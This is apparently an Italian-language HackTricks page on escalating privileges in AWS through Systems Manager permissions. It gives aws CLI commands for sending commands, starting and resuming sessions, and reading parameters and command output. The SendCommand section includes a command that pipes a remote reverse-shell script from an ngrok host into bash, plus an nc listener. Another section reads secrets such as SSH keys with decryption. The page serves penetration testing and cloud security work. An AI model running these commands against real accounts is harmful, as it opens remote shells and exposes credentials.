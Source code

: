 # AWS - Escalazione dei privilegi SSM

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**Gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SSM

Per ulteriori informazioni su SSM, controlla:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un attaccante con il permesso **`ssm:SendCommand`** può **eseguire comandi nelle istanze** in esecuzione sull'Agente Amazon SSM e **compromettere il ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Nel caso in cui stai utilizzando questa tecnica per escalare i privilegi all'interno di un'istanza EC2 già compromessa, potresti semplicemente catturare la shell reversa localmente con:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 collegati alle istanze in esecuzione con agenti SSM in esecuzione.

### `ssm:StartSession`

Un attaccante con il permesso **`ssm:StartSession`** può **avviare una sessione simile a SSH nelle istanze** in esecuzione con l'Agente Amazon SSM e **compromettere il Ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Per avviare una sessione è necessario avere installato il **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impatto Potenziale:** Escalation dei privilegi diretta ai ruoli IAM EC2 collegati alle istanze in esecuzione con agenti SSM attivi.

#### Escalation dei Privilegi su ECS

Quando le **attività ECS** vengono eseguite con **`ExecuteCommand` abilitato**, gli utenti con le autorizzazioni adeguate possono utilizzare `ecs execute-command` per **eseguire un comando** all'interno del container.\
Secondo [**la documentazione**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) ciò avviene creando un canale sicuro tra il dispositivo utilizzato per avviare il comando "_exec_" e il container di destinazione con SSM Session Manager.\
Pertanto, gli utenti con `ssm:StartSession` saranno in grado di **ottenere una shell all'interno delle attività ECS** con quell'opzione abilitata semplicemente eseguendo:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impatto Potenziale:** Privesc diretto ai ruoli `ECS`IAM collegati ai task in esecuzione con `ExecuteCommand` abilitato.

### `ssm:ResumeSession`

Un attaccante con il permesso **`ssm:ResumeSession`** può ri**avviare una sessione simile a SSH nelle istanze** in esecuzione dell'Agente Amazon SSM con uno stato di sessione SSM **disconnesso** e **compromettere il Ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 collegati alle istanze in esecuzione con agenti SSM in esecuzione e sessioni disconnesse.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaccante con le autorizzazioni menzionate sarà in grado di elencare i **parametri SSM** e **leggerli in chiaro**. In questi parametri è possibile trovare frequentemente **informazioni sensibili** come chiavi SSH o chiavi API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno dei parametri.

### `ssm:ListCommands`

Un attaccante con questa autorizzazione può elencare tutti i **comandi** inviati e sperabilmente trovare **informazioni sensibili** su di essi.
```
aws ssm list-commands
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno delle righe di comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaccante con queste autorizzazioni può elencare tutti i **comandi** inviati e **leggere l'output** generato, sperabilmente trovando **informazioni sensibili** al loro interno.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno dell'output delle righe di comando.

### Codebuild

È possibile utilizzare SSM anche per accedere a un progetto codebuild in fase di compilazione:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>

